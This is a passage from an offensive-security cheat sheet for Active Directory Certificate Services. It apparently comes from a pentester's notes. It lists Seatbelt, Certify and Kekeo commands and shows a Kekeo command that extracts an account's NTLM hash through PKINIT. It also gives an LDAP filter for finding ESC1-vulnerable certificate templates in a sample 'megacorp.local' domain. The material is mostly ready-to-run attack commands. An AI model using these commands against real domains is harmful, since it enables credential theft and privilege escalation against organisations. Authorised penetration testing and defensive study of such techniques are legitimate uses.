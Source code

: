 Correlate a certificate with a CA thumbprint on the host and in AD:

```powershell
 # Get cert's thumbprint
PS > $CertPath = "C:\Users\snovvcrash\cert.p12"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.Thumbprint
 # Match it with CA certs' thumbprints trusted by the current host
Cmd > .\Seatbelt.exe -q CertificateThumbprints
 # Match it with CA certs' thumbprints from AD
Cmd > .\Certify.exe find /quiet
```

## <mark style="color:red;">Steal NTLM via PKINIT (THEFT5)</mark> <a href="#steal-ntlm-via-pkinit-theft-5" id="steal-ntlm-via-pkinit-theft-5"></a>

Request NTLM hash when the account is authenticated with a TGT through PKINIT with Kekeo:

```
Cmd > .\kekeo.exe "tgt::pac /caname:CA01 /domain:megacorp.local /subject:snovvcrash /castore:current_user" "exit"
```

## <mark style="color:red;">Domain Escalation via Certificates</mark> <a href="#domain-escalation-via-certificates" id="domain-escalation-via-certificates"></a>

Discover vulnerable templates:

```
Cmd > .\Certify.exe find /vulnerable
```

### <mark style="color:orange;">Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs (ESC1)</mark> <a href="#modifiable-san-smart-card-logon-or-client-authentication-or-pkinit-client-authentication-ekus-esc-1" id="modifiable-san-smart-card-logon-or-client-authentication-or-pkinit-client-authentication-ekus-esc-1"></a>

Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.

Find template with this misconfiguration:

```powershell
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```
